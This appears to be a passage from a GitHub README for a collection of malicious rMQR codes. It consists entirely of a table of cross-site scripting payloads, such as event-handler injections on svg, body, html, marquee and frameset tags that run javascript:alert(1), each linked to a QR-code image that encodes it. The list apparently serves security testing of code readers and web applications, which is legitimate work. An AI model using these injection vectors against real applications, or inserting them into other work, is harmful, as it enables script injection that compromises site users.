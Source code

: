 | `<svg onLoad svg onLoad="javascript:javascript:alert(1)"></svg onLoad>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/38.png) |
| `<body onPageHide body onPageHide="javascript:javascript:alert(1)"></body onPageHide>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/39.png) |
| `<body onMouseOver body onMouseOver="javascript:javascript:alert(1)"></body onMouseOver>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/40.png) |
| `<body onUnload body onUnload="javascript:javascript:alert(1)"></body onUnload>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/41.png) |
| `<body onLoad body onLoad="javascript:javascript:alert(1)"></body onLoad>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/42.png) |
| `<html onMouseLeave html onMouseLeave="javascript:javascript:alert(1)"></html onMouseLeave>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/43.png) |
| `<html onMouseWheel html onMouseWheel="javascript:javascript:alert(1)"></html onMouseWheel>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/44.png) |
| `<style onLoad style onLoad="javascript:javascript:alert(1)"></style onLoad>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/45.png) |
| `<body onPageShow body onPageShow="javascript:javascript:alert(1)"></body onPageShow>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/46.png) |
| `<frameset onFocus frameset onFocus="javascript:javascript:alert(1)"></frameset onFocus>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/47.png) |
| `<applet onError applet onError="javascript:javascript:alert(1)"></applet onError>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/48.png) |
| `<marquee onStart marquee onStart="javascript:javascript:alert(1)"></marquee onStart>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/49.png) |
| `<script onLoad script onLoad="javascript:javascript:alert(1)"></script onLoad>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/50.png) |
| `<html onMouseOver html onMouseOver="javascript:javascript:alert(1)"></html onMouseOver>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/51.png) |
| `<html onMouseEnter html onMouseEnter="javascript:parent.javascript:alert(1)"></html onMouseEnter>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/52.png) |
| `<body onBeforeUnload body onBeforeUnload="javascript:javascript:alert(1)"></body onBeforeUnload>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/53.png) |
| `<html onMouseDown html onMouseDown="javascript:javascript:alert(1)"></html onMouseDown>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/54.png) |
| `<marquee onScroll marquee onScroll="javascript:javascript:alert(1)"></marquee onScroll>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/55.png) |
| `<xml onPropertyChange xml onPropertyChange="javascript:javascript:alert(1)"></xml onPropertyChange>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/56.png) |
| `<frameset onBlur frameset onBlur="javascript:javascript:alert(1)"></frameset onBlur>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/57.png) |
| `<svg onUnload svg onUnload="javascript:javascript:alert(1)"></svg onUnload>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/58.png) |
| `<html onMouseOut html onMouseOut="javascript:javascript:alert(1)"></html onMouseOut>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/59.png) |
| `<body onMouseMove body onMouseMove="javascript:javascript:alert(1)"></body onMouseMove>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/60.png) |
| `<body onResize body onResize="javascript:javascript:alert(1)"></body onResize>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/61.png) |
| `<object onError object onError="javascript:javascript:alert(1)"></object onError>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/62.png) |
| `<body onPopState body onPopState="javascript:javascript:alert(1)"></body onPopState>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/63.png) |
| `<html onMouseMove html onMouseMove="javascript:javascript:alert(1)"></html onMouseMove>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/64.png) |
| `<body onpagehide body onpagehide="javascript:javascript:alert(1)"></body onpagehide>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/65.png) |
| `<svg onunload svg onunload="javascript:javascript:alert(1)"></svg onunload>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/66.png) |
| `<applet onerror applet onerror="javascript:javascript:alert(1)"></applet onerror>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/67.png) |
| `<body onkeyup body onkeyup="javascript:javascript:alert(1)"></body onkeyup>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/68.png) |
| `<body onunload body onunload="javascript:javascript:alert(1)"></body onunload>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/69.png) |